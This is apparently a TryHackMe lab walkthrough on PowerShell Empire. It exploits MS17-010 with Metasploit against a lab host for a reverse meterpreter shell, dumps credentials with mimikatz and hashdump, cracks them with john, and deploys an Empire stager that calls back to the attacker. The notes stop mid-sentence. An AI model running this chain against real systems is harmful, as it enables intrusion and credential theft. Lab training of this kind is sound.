 Website [URL](https://tryhackme.com/room/rppsempire)

Powershell Empire? This is a command and control server

# Enum
want to use `msfconsole` for this whole thing

lets begin by starting the database
```bash
sudo msfdb init
msfconsole -q
```

next we will do an nmap scan
```bash
db_nmap -A --script vuln -vv -oA Empire 10.10.159.89
```

now that we have data inside our database we can check the open ports and services on the host. as well as vulnerabilities. 445 is open
```bash
services
hosts
vulns
```

based on the nmap script, this is vulnerable to MS17-010. lets run a checker
```bash
search ms17-010
use 3
options
set rhosts 10.10.159.89
exploit
```

looks like it is so lets use the proper payload now
```bash
search ms17-010
use 0
options
set rhosts 10.10.159.89
set lhost tun0
exploit
```

we get a reverse meterpreter shell since we didnt change the payload. we can do a couple of things here
```bash
getuid
sysinfo
load kiwi #loads mimikatz
creds_all #dumps creds
hashdump  #dumps hashes
```

we can crack the password
```bash
john empire.hash --format=NT --wordlist=/usr/share/wordlists/rockyou.txt
```

lets now use Powershell Empire as intended. we can get it from [here](https://github.com/BC-SECURITY/Empire)
```bash
cd /opt
git clone https://github.com/BC-SECURITY/Empire
cd Empire
./setup/install.sh
```

lets also install the GUI version called [Starkiller](https://github.com/BC-SECURITY/Starkiller/releases)
```bash
chmod +x starkiller.AppImage
```

now lets start both Empire and Starkiller
```bash
./ps-empire server
./starkiller.AppImage
URL: localhost:1337
User: empireadmin
Pass: password123
```

in Starkiller, lets create a listener
+ create listener
+ type: http
+ host: myMachineIP
+ port: myMachinePort

lets also create a stager
+ create stager
+ type: windows/launcher_bat
+ listener: oneMadeFromAbove

once that was created i downloaded the stager and uploaded to the remote machine using meterpreter
```bash
upload ~/Documents/launcher.bat
```

we could have also used `wget` or `curl` or a different route to get the batch file into the remote machine

once uploaded, i just entered shell and ran the batch script. check Starkiller for agent callback
```bash
shell
launcher.bat
```

now that we have an agent we can run all sorts of commands and modules. lets take a look at a few modules
+ powershell/credentials/mimikatz/command
+ powershell/collection/keylogger
+ powershell/privesc/winPEAS
+ powershell/trollsploit/voicetroll

we can also add new plugins to Empire
simply download and transfer a plugin.py file to the /